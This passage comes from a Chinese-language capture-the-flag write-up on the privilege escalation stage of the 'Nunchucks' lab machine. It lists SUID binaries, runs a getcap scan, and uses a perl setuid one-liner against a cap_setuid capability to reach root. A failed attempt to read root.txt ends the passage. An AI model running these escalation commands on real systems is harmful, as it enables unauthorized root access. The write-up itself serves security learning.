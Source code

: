 ```bash
```

---

# Privilege Escalation

查看可执行文件

```bash
david@nunchucks:/tmp$ find / -type f -perm -u=s 2>/dev/null
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/at
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/su
/usr/bin/sudo
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pppd
```

同时查看网站配置文件发现mysql用户名密码，经测试均无法提权

最后经网上搜索发现通过getcap查看文件capabilities

```bash
david@nunchucks:/tmp$ getcap -r / 2>/dev/null
/usr/bin/perl = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

发现perl有cap_setuid+ep属性，可以通过perl提权
参考[https://gtfobins.github.io/gtfobins/perl/#capabilities](https://gtfobins.github.io/gtfobins/perl/#capabilities)

```bash
# 尝试提权
david@nunchucks:/tmp$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";' 
david@nunchucks:/tmp$ id
uid=1000(david) gid=1000(david) groups=1000(david)
# 未成功 - -

# 使用其他命令
david@nunchucks:/tmp$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "id";' 
uid=0(root) gid=1000(david) groups=1000(david)
david@nunchucks:/tmp$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "cat /root/root.txt";' 
cat: /root/root.txt: Permission denied # 无权限，什么鬼？
```
